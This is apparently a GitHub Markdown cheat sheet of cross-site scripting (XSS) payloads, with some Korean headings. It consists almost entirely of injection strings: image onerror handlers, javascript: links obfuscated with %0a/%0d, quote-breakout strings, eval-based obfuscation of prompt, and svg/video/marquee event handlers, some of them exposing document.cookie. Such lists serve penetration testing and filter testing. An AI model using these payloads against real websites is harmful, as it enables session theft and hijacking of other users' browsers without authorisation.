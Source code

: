 # XSS

**Basic**
```
"><img src=x onerror=alert()>
```

**Button**
```
<Button href="javascript://%0aalert(123)">
XSS with %0a
</Button>
<Button href="javascript://%0dalert(document.domain)">
XSS with %0d
</Button>
```

**A tag**
```
"><a href="javascript:alert(0)">click here</a>
```

**Creat Page(게시판,링크,)**
```
javascript://%0aalert(1)
```

**이중 XSS**
```javascript
">]<img src=x onerror=alert(document.domain)> ">]<img src=x onerror=alert(document.cookie)>
```

```
"-prompt(8)-"
'-prompt(8)-'
";a=prompt,a()//
';a=prompt,a()//
'-eval("window['pro'%2B'mpt'](8)")-'
"-eval("window['pro'%2B'mpt'](8)")-"
"onclick=prompt(8)>"@x.y
"onclick=prompt(8)><svg/onload=prompt(8)>"@x.y
0\"autofocus/onfocus=alert(1)--><video/poster/onerror=prompt(2)>"-confirm(3)-"
```

```
'';!--"<XSS>=&{()}
\";alert('XSS');//
'); alert('XSS
'); alert('xss'); var x='
\\'); alert(\'xss\');var x=\'
‘; alert(1);
‘)alert(1);//
```

```
<marguee/onstart=alert(1)>
```
